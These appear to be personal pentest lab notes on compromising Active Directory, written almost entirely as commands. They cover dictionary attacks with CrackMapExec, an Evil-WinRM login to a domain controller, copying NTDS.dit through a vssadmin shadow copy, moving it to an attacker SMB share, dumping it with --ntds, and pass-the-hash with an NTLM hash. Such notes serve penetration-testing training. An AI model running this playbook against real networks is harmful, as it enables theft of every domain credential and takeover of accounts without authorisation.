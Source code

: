 #windows/auth/AD/NTDS

# Dictionary Attacks against AD accounts using #CrackMapExec
```bash
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
 ```

# Capturing NTDS.dit
NT Directory Services (NTDS) is the directory service used with AD to find & organize network resources. Recall that NTDS.dit file is stored at %systemroot%/ntds on the domain controllers in a forest. The .dit stands for directory information tree. This is the primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information.
### Connecting to a DC with Evil-WinRM
```bash
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```
### Checking Local Group Membership
```
*Evil-WinRM* PS C:\> net localgroup
```
To make a copy of the NTDS.dit file, we need local admin (Administrators group) or Domain Admin (Domain Admins group) (or equivalent) rights.
### Checking User Account Privileges including Domain
```
*Evil-WinRM* PS C:\> net user bwilliamson
```
### Creating Shadow Copy of C: with vssadmin
```bash
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```
### Copying NTDS.dit from the VSS
```
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```
### Transferring NTDS.dit to Attack Host
```
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```
# A Faster Method: Using #CrackMapExec  to Capture NTDS.dit
```bash
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```
# Pass-the-Hash with Evil-WinRM Example
If cracking NTDS hash no successfull, we can use hash directly:
```bash
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```
